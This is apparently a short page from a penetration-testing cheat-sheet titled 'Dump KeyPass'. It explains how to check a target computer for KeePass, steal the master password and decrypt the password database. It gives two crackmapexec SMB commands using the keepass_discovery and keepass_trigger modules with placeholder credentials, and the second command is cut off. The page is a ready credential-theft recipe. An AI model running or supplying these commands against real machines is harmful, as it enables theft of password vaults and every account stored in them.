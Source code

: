 # Dump KeyPass



You can check if keepass is installed on the target computer and then steal the master password and decrypt the database !

```
$ crackmapexec smb <ip> -u user -p pass -M keepass_discovery
$ crackmapexec smb <ip> -u user -p pass -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discov
```

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>
